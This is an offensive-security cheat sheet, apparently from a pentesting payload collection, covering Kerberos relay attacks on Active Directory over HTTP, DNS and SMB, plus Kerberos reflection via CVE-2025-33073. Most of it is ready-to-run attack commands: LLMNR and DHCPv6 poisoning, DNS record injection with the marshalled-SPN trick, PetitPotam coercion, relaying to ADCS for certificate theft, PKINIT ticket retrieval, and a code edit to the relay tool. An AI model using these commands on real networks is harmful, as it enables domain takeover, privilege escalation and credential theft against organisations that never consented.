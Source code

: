 # Internal - Kerberos Relay

## Kerberos Relay over HTTP

**Requirements**:

* Kerberos authentication for services without signing

HTTP through multicast poisoning (LLMNR)

* An attacker sets up an LLMNR poisoner on the multicast range.
* An HTTP client on the multicast range fails to resolve a hostname. This can happen because of a typo in a browser, a misconfiguration, but this can also be triggered by an attacker via WebDav coercion.
* The LLMNR poisoner indicates that the hostname resolves to the attacker’s machine. In the LLMNR response, the answer name differs from the query and corresponds to an arbitrary relay target.
* The victim performs a request on the attacker web server, which requires Kerberos authentication.
* The victim asks for a ST with the SPN of the relay target. It then sends the resulting AP-REQ to the attacker web server.
* The attacker extracts the AP-REQ and relays it to a service of the relay target.

**Example**: ESC8 with Kerberos Relay

```ps1
python3 Responder.py -I eth0 -N <PKI_SERVER_NETBIOS_NAME>
sudo python3 krbrelayx.py --target 'http://<PKI_SERVER>.<DOMAIN.LOCAL>/certsrv/' -ip <ATTACKER_IP> --adcs --template User -debug
```

## Kerberos Relay over DNS

Abuses the DNS Secure Dynamic Updates in Active Directory.

* [dirkjanm/mitm6](https://github.com/dirkjanm/mitm6)
* [dirkjanm/krbrelayx](https://github.com/dirkjanm/krbrelayx)
* [dirkjanm/PKINITtools](https://github.com/dirkjanm/PKINITtools)

**Steps**:

* The client queries for the Start Of Authority (SOA) record for it’s name, which indicates which server is authoritative for the domain the client is in.
* The server responds with the DNS server that is authorative, in this case the DC icorp-dc.internal.corp.
* The client attempts a dynamic update on the A record with their name in the zone internal.corp.
* This dynamic update is refused by the server because no authentication is provided.
* The client uses a TKEY query to negotiate a secret key for authenticated queries.
* The server answers with a TKEY Resource Record, which completes the authentication.
* The client sends the dynamic update again, but now accompanied by a TSIG record, which is a signature using the key established in steps 5 and 6.
* The server acknowledges the dynamic update. The new DNS record is now in place.

```ps1
# Example - Relay to ADCS - ESC8
sudo krbrelayx.py --target http://adscert.internal.corp/certsrv/ -ip 192.168.111.80 --victim icorp-w10.internal.corp --adcs --template Machine
sudo mitm6 --domain internal.corp --host-allowlist icorp-w10.internal.corp --relay adscert.internal.corp -v
python gettgtpkinit.py -pfx-base64 MIIRFQIBA..cut...lODSghScECP5hGFE3PXoz internal.corp/icorp-w10$ icorp-w10.ccache
```

## Kerberos Relay over SMB

Abuses the way SMB clients construct SPNs when asking for a ST.

* [cube0x0/KrbRelay](https://github.com/cube0x0/KrbRelay) - Framework for Kerberos relaying.
* [decoder-it/KrbRelayEx-RPC](https://github.com/decoder-it/KrbRelayEx-RPC) - Kerberos Relay and Forwarder for (Fake) RPC/DCOM MiTM Server.

```ps1
dnstool.py -u "DOMAIN.LOCAL\\user" -p "pass" -r "pki1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA" -d "10.10.10.10" --action add "10.10.10.11" --tcp
petitpotam.py -u 'user' -p 'pass' -d DOMAIN.LOCAL 'pki1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA' dc.domain.local
krbrelayx.py -t 'http://pki.domain.local/certsrv/certfnsh.asp' --adcs --template DomainController -v 'DC$'
gettgtpkinit.py -cert-pfx 'DC$.pfx' 'DOMAIN.LOCAL/DC$' DC.ccache
```

## Kerberos Reflection - CVE-2025-33073

Relay one machine to itself by using the `1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA` trick. Also, grants local admin privilege.

![reflective-kerberos-relay-attack](https://blog.redteam-pentesting.de/2025/reflective-kerberos-relay-attack/ReflectiveKerberosRelayAttackBlog_hu_4f4898429389ef25.webp)

* Add a DNS record for `[SERVERNAME] + 1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA` pointing to our IP address. It is also possible to compromise any vulnerable machine by registering `localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA`.

    ```ps1
    dnstool.py -u 'domain.local\username' -p 'P@ssw0rd' 10.10.10.10 -a add -r target1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -d 198.51.100.27
    # OR
    pretender -i "vmnet2" --spoof "target1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA" --no-dhcp --no-timestamps
    ```

* Edit `krbrelayx/lib/servers/smbrelayserver.py` and remove these lines

    ```ps1
    156: blob['tokenOid'] = '1.3.6.1.5.5.2'
    157: blob['innerContextToken']['mechTypes'].extend([MechType(TypesMech['KRB5 - Kerberos 5']),
    158:                                                MechType(TypesMech['MS KRB5 - Microsoft Kerberos 5']),
    159:                                                MechType(TypesMech['NTLMSSP - Microsoft NTLM Security Support Provider'])])
    ```

* Start the relay to catch the callback from TARGET.

    ```ps1
    krbrelayx.py -t TARGET.DOMAIN.LOCAL -smb2support
    krbrelayx.py --target smb://target.lab.redteam -c whoam
    ```

* Trigger a callback from the server to `[SERVERNAME] + 1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA` using PetitPotam.

    ```ps1
    nxc smb TARGET.domain.local -u username -p 'P@ssw0rd' -M coerce_plus -o M=Petitpotam LISTENER=target1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA
    # OR
    petitpotam.py -d domain.local -u username -p 'password' "TARGET1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA" "TARGET.DOMAIN.LOCAL"
    # OR
    wspcoerce 'lab.redteam/user:password@target.lab.redteam' file:////target1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA/path
    ```

## References

* [A Look in the Mirror - The Reflective Kerberos Relay Attack - RedTeam Pentesting - June 11, 2025](https://blog.redteam-pentesting.de/2025/reflective-kerberos-relay-attack/)
* [Abusing multicast poisoning for pre-authenticated Kerberos relay over HTTP with Responder and krbrelayx - Quentin Roland - January 27, 2025](https://www.synacktiv.com/publications/abusing-multicast-poisoning-for-pre-authenticated-kerberos-relay-over-http-with)
* [From NTLM relay to Kerberos relay: Everything you need to know - Decoder - April 24, 2025](https://decoder.cloud/2025/04/24/from-ntlm-relay-to-kerberos-relay-everything-you-need-to-know/)
* [NTLM reflection is dead, long live NTLM reflection! – An in-depth analysis of CVE-2025-33073 - Wilfried Bécard and Guillaume André - June 11, 2025](https://www.synacktiv.com/en/publications/ntlm-reflection-is-dead-long-live-ntlm-reflection-an-in-depth-analysis-of-cve-2025)
* [Relaying Kerberos over DNS using krbrelayx and mitm6 - Dirk-jan Mollema - February 22, 2022](https://dirkjanm.io/relaying-kerberos-over-dns-with-krbrelayx-and-mitm6/)
* [Relaying Kerberos over SMB using krbrelayx - Hugo Vincent - November 20, 2024](https://www.synacktiv.com/publications/relaying-kerberos-over-smb-using-krbrelayx)
* [Using Kerberos for Authentication Relay Attacks - James Forshaw - October 20, 2021](https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html)
* [Windows Exploitation Tricks: Relaying DCOM Authentication - James Forshaw - October 20, 2021](https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html)
